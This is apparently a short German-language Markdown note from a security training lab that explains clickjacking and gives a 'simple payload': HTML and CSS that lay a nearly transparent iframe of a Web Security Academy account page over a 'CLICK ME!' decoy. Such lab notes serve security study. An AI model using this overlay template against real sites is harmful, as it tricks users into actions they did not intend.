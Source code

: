 #Exploit #Payload #Vulnerability #Red-Team #script  #Socialengineering

## What is Clickjacking?

#### Clickjacking täuscht Nutzer dazu, **unsichtbare Buttons** oder Links zu klicken und ungewollte Aktionen auszuführen.


## Simple Payload:

````
<style>
 iframe {
 position:relative;
 width: 1000px;
 height: 700px;
opacity: 0.1;
 z-index: 2;
}

div {
 position: absolute;
 top: 525px;
 left: 50px;
 z-index:1;
</style>

<div>CLICK ME!</div>
<iframe src="https://0a76000f0324334e82c0ac3a00ae006b.web-security-academy.net/my-account"></iframe>
````
